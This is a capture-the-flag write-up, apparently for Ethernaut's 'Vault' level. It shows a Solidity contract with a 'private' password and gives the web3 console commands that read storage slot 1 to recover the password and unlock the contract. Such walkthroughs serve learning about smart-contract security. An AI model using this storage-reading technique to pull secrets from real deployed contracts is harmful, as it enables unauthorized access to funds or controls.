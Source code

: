Submit instance for completion.

## <a name='Vault'></a> 8. Vault

> The goal of this level is to unlock the vault.

The level provides us with a brief contract. At a first glance, it appears that the required `password` may be hidden as a private variable.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

However, the [Security Considerations](https://docs.soliditylang.org/en/v0.8.19/security-considerations.html#private-information-and-randomness) section of the Solidity documentation, inform us that, "Everything you use in a smart contract is publicly visible, even local variables and state variables marked private."

We are able to access the required `password` by accessing the storage at slot 1 (not slot 0, which would refer to the boolean for `locked`).

I initially solved the level by using Alchemy's Composer [tool](https://composer.alchemy.com/) prior to discovering the `getStorageAt` function within the web3-eth package. The `getStorageAt` function is recommended.

```js
// Let's retrieve the password by specifying the address (our instance address) and index position of the storage (1).
> await web3.eth.getStorageAt("0xaab0953750D171e65A2b37C982Ed758d0c8445dE", 1)
< '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

// Submit the password to unlock the contract
> await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

// Verify the contract has been unlocked
> await contract.locked()
< false
```
